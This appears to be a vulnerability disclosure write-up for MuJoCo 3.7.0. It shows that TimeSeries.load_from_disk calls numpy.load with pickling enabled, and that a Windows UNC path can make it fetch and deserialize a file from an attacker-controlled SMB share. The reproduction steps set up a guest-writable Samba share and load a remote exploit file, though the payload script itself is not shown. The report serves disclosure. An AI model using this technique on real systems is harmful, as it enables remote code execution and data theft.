


# `MuJoCo` - Version `3.7.0` / Remote Code Execution (RCE) via Insecure Deserialization based on sink `numpy.load` and `mujoco.sysid.TimeSeries` class (RCE via UNC Path Redirection in `TimeSeries` Loading) 

* https://pypi.org/project/mujoco/
* https://github.com/google-deepmind/mujoco

## Introduction

**Below are one (1) way to reproduce RCE in `MuJoCo` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The `mujoco.sysid.TimeSeries.load_from_disk` method is vulnerable to insecure deserialization. The function utilizes `numpy.load` with the `allow_pickle=True` parameter enabled to process archived signal data. This configuration allows the deserialization of arbitrary Python objects embedded within the `.npz` file. On Windows systems, this vulnerability can be exploited remotely by passing a Universal Naming Convention (UNC) path, forcing the application to fetch and deserialize a malicious payload from an attacker-controlled SMB share.
### The vulnerable code in `mujoco/sysid/_src/timeseries.py`:

```python
601:   @classmethod
602:   def load_from_disk(cls, path: str | pathlib.Path) -> TimeSeries:
...
601:     with np.load(path, allow_pickle=True) as npz:
602:       times = npz["times"]
603:       data = npz["data"]
604:       if "signal_mapping" in npz:
605:         signal_mapping = npz["signal_mapping"].item() # <--- Triggers pickle.load
```

## Technical Impact Analysis

### Project Purpose & Context

MuJoCo (Multi-Joint dynamics with Contact) is a widely used physics engine for robotics research and development. The `sysid` (System Identification) module is specifically designed to help researchers identify physical parameters (mass, friction, etc.) from experimental data. This context involves the frequent sharing of large datasets (trajectories and time series) between researchers and across automated simulation pipelines.


### Platform & Deployment Environment

While MuJoCo is cross-platform, this specific RCE vector leverages Windows' native support for UNC paths. The deployment environment typically includes high-performance workstations, GPU clusters for simulation, and collaborative research environments where paths to remote datasets are often managed via shared configuration files or environmental variables.

### Comprehensive Risk Assessment

The risk is classified as **CRITICAL**. By enabling `allow_pickle=True`, the library implicitly trusts the integrity of any loaded file. The ability to redirect this load to a remote SMB share transforms a local file-handling feature into a zero-interaction remote exploit. Successful exploitation results in full system compromise, providing the attacker with the same privileges as the researcher or service running the MuJoCo simulation.


## Attack Scenario


### Who wants to exploit a particular vulnerability?

Targeted attackers including corporate competitors seeking to steal proprietary robot controller logic, state-sponsored actors targeting advanced robotics research, or malicious actors looking to pivot from a research workstation into broader corporate or laboratory networks.


### For what gain?

The primary gain is the theft of sensitive intellectual property (robot models, control parameters, proprietary algorithms). Secondary gains include establishing a persistent foothold in high-value research infrastructure (GPU clusters) or sabotaging simulation results to delay product development or academic publication.


### In what way?

An attacker can distribute "malicious datasets" on research portals or, more stealthily, modify a shared configuration file in a lab environment to point to a UNC path (`\\attacker\share\data.npz`). When the automated identification pipeline or a researcher's notebook attempts to "load the latest data," the payload is fetched and executed automatically, bypassing traditional network boundary protections that often allow SMB traffic within a laboratory LAN.


# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

1. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```ini
[lab_share]
    path = /home/kw0/lab_attack
    read only = no
    guest ok = yes
```

**Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate the `exploit.npz` file directly in the shared path:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\PYPI-mujoco> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\PYPI-mujoco>
```

1. Create a `.venv`, activate it, and install the latest updated version (`3.7.0`) of `MuJoCo` using `pip install mujoco`. 
2. Additionally, it is necessary to install `numpy`, `PyYAML`, `colorama`, `tabulate`, `scipy`, `jinja2`, `matplotlib` and `plotly` to create a complete testing environment: `pip install numpy PyYAML colorama tabulate scipy jinja2 matplotlib plotly`.
3. Enable the SMB share: `net use Z: \\192.168.1.90\lab_share /persistent:no`
4. And then launch the service to trigger the RCE:

```
python -c "from mujoco.sysid import TimeSeries; p=r'\\192.168.1.90\lab_share\exploit.npz'; print(f'[*] Loading: {p}'); exec('try: TimeSeries.load_from_disk(p)\nexcept: pass')"
```

